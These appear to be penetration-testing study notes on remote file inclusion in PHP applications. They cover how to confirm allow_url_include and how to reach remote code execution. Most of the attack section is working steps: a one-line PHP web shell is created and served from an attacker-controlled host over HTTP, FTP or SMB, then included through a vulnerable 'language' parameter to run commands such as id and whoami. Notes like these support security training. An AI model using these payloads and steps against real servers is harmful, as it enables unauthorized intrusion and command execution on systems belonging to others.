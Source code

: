 ## Local vs. Remote File Inclusion

When a vulnerable function allows us to include remote files, we may be able to host a malicious scripts, and then include it in the vulnerable page to execute malicious functions and gain remote code execution

Vulnerable functions:
PHP:  include()/include_once(), file_get_contents()
Java: import
.NET: @Html.RemotePPartial(), include

RFIs are also an LFI, but an LFI may not necessarily be an RFI.

**Verify RFI
```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```
- allow_url_include() = On

```
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```
- Try and include a URL, its own, to ensure it is not blocked by a firewall
- It is not ideal to include the vulnerable page itself as this causes a recursive inclusion loop which leads to DoS


## Remote Code Execution with RFI
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
sudo python3 -m http.server 80
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```


## FTP
```
sudo python -m pyftpdlib -p 21
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```
- The third is if the server requires authentication


## SMB
```
impacket-smbserver -smb2support share $(pwd)
```
```url
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```
